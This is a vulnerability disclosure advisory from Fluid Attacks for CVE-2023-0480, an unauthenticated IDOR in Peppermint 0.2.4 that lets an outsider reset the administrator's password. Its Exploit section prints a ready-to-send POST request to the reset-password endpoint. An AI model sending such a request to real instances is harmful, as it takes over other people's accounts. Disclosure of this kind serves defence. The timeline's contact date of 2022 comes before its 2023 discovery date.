 ```yaml
---
slug: advisories/sharp/
title: Peppermint 0.2.4 - Account Takeover via IDOR
authors: Carlos Bello
writer: cbello
codename: sharp
product: Peppermint 0.2.4
date: 2023-02-06 12:00 COT
cveid: CVE-2023-0480
severity: 9.8
description: Peppermint 0.2.4 - 0 Click Account Takeover via unauthenticated IDOR
keywords: Fluid Attacks, Security, Vulnerabilities, Peppermint, Account Takeover
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | Peppermint 0.2.4 - 0 Click Account Takeover via unauthenticated IDOR |
| **Code name**         | [Sharp](https://en.wikipedia.org/wiki/Ten_Sharp)                     |
| **Product**           | Peppermint                                                           |
| **Affected versions** | 0.2.4                                                                |
| **State**             | Public                                                               |
| **Release Date**      | 2023-02-06                                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Insecure object reference                                                                              |
| **Rule**              | [013. Insecure object reference](https://docs.fluidattacks.com/criteria/vulnerabilities/013)           |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H                                                               |
| **CVSSv3 Base Score** | 9.8                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0480](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0480)                          |

## Description

Peppermint version 0.2.4 allows an unauthenticated external attacker
to change the instance administrator's password. This is possible because
the application exposes a critical endpoint without authentication, and
because it is vulnerable to IDOR.

## Vulnerability

This vulnerability occurs because the application exposes a critical endpoint
without authentication, and because it is vulnerable to IDOR.

### Exploit

To exploit this vulnerability, we only need to send a request like the following
to the server.

```txt
POST /api/v1/users/resetpassword HTTP/1.1
Host: vulnerable.com
User-Agent: Fluid Attacks
Content-Type: application/json
Content-Length: 26
Connection: close

{"password":"hacked","id":1}
```

## Evidence of exploitation

![code_ato](https://user-images.githubusercontent.com/51862990/214393425-126be754-ffb9-4bf8-aca0-4190b94f70c2.png)

![request_ato](https://user-images.githubusercontent.com/51862990/214393489-e8b83865-a813-44ba-8806-d6733581824f.png)

![0_click_ato](https://user-images.githubusercontent.com/51862990/214393767-bbfb42f7-72d7-495d-a469-ba019b562f5d.gif)

## Our security policy

We have reserved the ID CVE-2023-0480 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Peppermint 0.2.4

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Peppermint-Lab/peppermint/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-02-06">
</time-lapse>
